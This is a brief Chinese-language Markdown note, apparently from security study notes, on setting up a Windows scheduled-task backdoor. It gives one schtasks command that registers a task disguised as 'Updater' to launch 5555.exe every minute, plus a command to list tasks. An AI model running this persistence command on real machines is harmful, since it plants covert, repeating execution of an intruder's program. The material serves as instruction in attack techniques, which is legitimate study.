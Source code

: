 - 计划任务后门
  - schtasks命令设定计划自启动后门程序
  ```
  schtasks /Create /tn Updater /tr C:\Users\Aministrator\Desktop\5555.exe /sc minute /mo 1
  # 每1分钟自动执行5555.exe
  ```
  ```
  chcp 437  # 修改编码
  schtasks  # 查看计划任务
  ```
  ![Alt text](../../cyber_security/images/image110.png)